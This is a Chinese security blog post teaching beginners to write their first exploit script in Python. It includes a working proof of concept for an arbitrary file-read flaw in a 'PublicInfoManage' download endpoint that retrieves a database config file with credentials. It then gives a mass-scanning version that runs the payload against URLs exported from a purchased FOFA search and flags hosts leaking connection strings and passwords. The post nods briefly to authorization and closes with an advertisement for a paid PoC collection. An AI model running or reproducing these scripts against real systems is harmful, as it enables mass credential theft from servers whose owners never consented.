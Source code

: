 #  漏洞挖掘-小白编写人生中第一个漏洞利用脚本   
原创 小白  吉吉说安全   2024-11-25 00:45  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/2UziaylhrCibGXaWwRWHIEN3lGc83KvSgticYxElE9bPu3yjynMAUKSibrbJ80dCpYXsKvFqThU6LynMv5OHJGGh9A/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
上次讲到了[小白如何通过网络安全赚取自己人生中的第一桶金](http://mp.weixin.qq.com/s?__biz=MzkwNjY1NjI2Mg==&mid=2247487326&idx=1&sn=7cd923d6331a03d698380370e81d7c3c&chksm=c0e46037f793e921036284f9c1f5bc89e70933e733def4d0d20f4890109d9272e49e700eec59&scene=21#wechat_redirect)  
，上上篇文章的预告**小白如何从脚本小子编写一个简单的脚本**拖到现在，终于有时间来更新了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2UziaylhrCibHxiccJIPmp4ibVTOwwaZgC7DQibwWTrmFsJqhnRDAkVokW3SibALGYJegQQW9m9SWricqgbG5W1aAf0ng/640?wx_fmt=png&from=appmsg "")  
作为小白我们在编写脚本的时候选择编程语言尽量选择好上手的，市面上常见的有java、php、python、  
golang  
等等  
，  
java编写图形化  
界面可以，但是上手比较难，php的话web界面还可以，这里面作者认为python是很好上手的，几天甚至几小时可能就能自己上手了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2UziaylhrCibHxiccJIPmp4ibVTOwwaZgC7DxsibzfZB1SnicTicaGqUoXvxHXr738xlr3u4N5N8Jy2xurXEtBEuq6msg/640?wx_fmt=png&from=appmsg "")  
  
首先就是安装，我们直接去官网  
https://www.python.org/downloads/下载，如下图所示  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2UziaylhrCibHxiccJIPmp4ibVTOwwaZgC7DzVMfs9gqqR2T5cy0Gx3iamrvt5MQUPxZFRMCUsLLJ5gKayoIeskic1jA/640?wx_fmt=png&from=appmsg "")  
  
windows版本的：下载好安装包后我们直接和正常安装软件一样一直下一步下一步即可，安装好打开cmd直接   
python -V  
如果出现版本信息即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2UziaylhrCibHxiccJIPmp4ibVTOwwaZgC7DT6OrZgjTYljZqHDOMkeXtQpKDnEQBx1kGm6ozSYkWj3hOgx0Bl0NCQ/640?wx_fmt=png&from=appmsg "")  
  
  
安装好后我们还需要安装一个非常非常重要的模块  
requests,  
这个模块可以模拟网页请求很重要‼️   
  
cmd中输入  
pip install   
requests  
即可，我这里是安装好了的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2UziaylhrCibHxiccJIPmp4ibVTOwwaZgC7Ddgck255lWiahI2ic3GqD7Q8N1hbicGICqLRaPbd7On52345ia8Fiaz3Hajw/640?wx_fmt=png&from=appmsg "")  
  
编辑器的话随便一个都行，作者这里用的是vscode  
  
https://vscode.github.net.cn/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2UziaylhrCibHxiccJIPmp4ibVTOwwaZgC7D6pLEwtbjauxiavEtWNOgdg3lyqzIXZURKv4wPibaMPxgIHIp5nDuiaqbg/640?wx_fmt=png&from=appmsg "")  
  
下载好和正常程序一样安装好后打开即可使用  
  
在任意地方创建一个py文件，如test.py,然后使用vscode打开  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2UziaylhrCibHxiccJIPmp4ibVTOwwaZgC7DWs5cjU8MuZfQADJFB4PUMT5nu1KBNX4oJXXSvnsCylqNH4wndZcobg/640?wx_fmt=png&from=appmsg "")  
  
这里用这个任意文件读取漏洞来演示,上图抓包信息中可以看到可以读取到数据库的账号密码，我们用脚本来试试看能不能读取到敏感信息  
```
import requests

poc_url="http://127.0.0.1/PublicInfoManage/Upload/DownFile?filePath=XmlConfig\database.config"

res=requests.get(url=poc_url)
r=res.text
print(r)
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2UziaylhrCibHxiccJIPmp4ibVTOwwaZgC7DXxXga0IjFHTcdNFx0Uz5Lib5YP0NPEoKwobribBp7dOsRxkurjf7ReSA/640?wx_fmt=png&from=appmsg "")  
  
通过resquests.get请求一个带poc的url连接，然后res.text看是否有返回敏感信息，很显然这里是返回了说明了漏洞存在,一个简单的poc验证脚本就大功告成了，  
  
如何进行批量检测呢？  
  
先去百度搜索一个漏洞poc的语法，一找一大堆啊，当前前提是需要有授权哈不然就是非法违法的犯罪，搞不好就进去了，禁止用于非法哈  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2UziaylhrCibHxiccJIPmp4ibVTOwwaZgC7DfNHgpia4F7uNeibDP6LB8Zh3FM4cBBq9AeFdljJM3wHdWOk29HpK1unw/640?wx_fmt=png&from=appmsg "")  
  
普通的fofa搜索不能导出也没有会员那咋办呢，很简单 我们去淘宝买一个就行几块十几块，我这里推荐一个我在用的哈，用起来还可以  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2UziaylhrCibHxiccJIPmp4ibVTOwwaZgC7Du6X7TZYCWXvGXqvJ6kLzhBefPaic6L1e9thZCJ8ghh9nwhRumiaT8j2A/640?wx_fmt=png&from=appmsg "")  
  
我们通过语法直接导出就行，然后保存到urls.txt中，然后呢骚味改一下代码就行  
```
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

with open('urls.txt') as f:
    f1=f.readlines()
poc="/PublicInfoManage/Upload/DownFile?filePath=XmlConfig\database.config"
for i in f1:
    url=i.replace("\n",'')
    res=requests.get(url=url+poc,verify=False)
    r=res.text
    if "connectionStrings" in r and "Password" in r:
        print(f"[+]{url} is True")

```  
  
增加了一个for循环哈批量去读取url，然后带入poc如果响应包中存在  
connectionStrings和  
Password字符那就是存在，输出当前url 存在漏洞的信息，还是非常简单的哈，如下图所示  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2UziaylhrCibHxiccJIPmp4ibVTOwwaZgC7DqMUoHj8kEwaQTNkB5oh8MhXCBAUoCD7mRLdd8PEoDKuZyBkhM6gBGg/640?wx_fmt=png&from=appmsg "")  
  
有了这些我们就可以去漏洞盒子刷分了，问就是起飞🛫️，肉蛋葱饥，芜湖。好好好，以后成为大神带带弟弟我吧呜呜呜  
  
圈子的最近主题和圈子内部工具一些展示」  
  
纷传100%  
官方认证授权  
，可在发现-圈子页面查看  
  
poc漏洞库 8000+src陆续更新中 -紧跟时代发展争做先进网安人![](https://mmbiz.qpic.cn/mmbiz_jpg/2UziaylhrCibFYic05bfOraYADLbLB8jLGiclliaxFkvJ9d8LXCmKfxWhicHfChHzmTQpbCy4vsknHxhqnBIibRS3qIUg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
一起愉快刷分-榜上有名![](https://mmbiz.qpic.cn/mmbiz_jpg/2UziaylhrCibFYic05bfOraYADLbLB8jLGic5ddl9lfHHBQEXRCQFwCw5bch8ffqnaHmoiaCZsK2k2JxGG09ibNYUhvw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
```
```  
  
#### 感谢您抽出..阅读本文  
####   
  
  
免责声明  
  
由于传播、利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为  
此  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
  
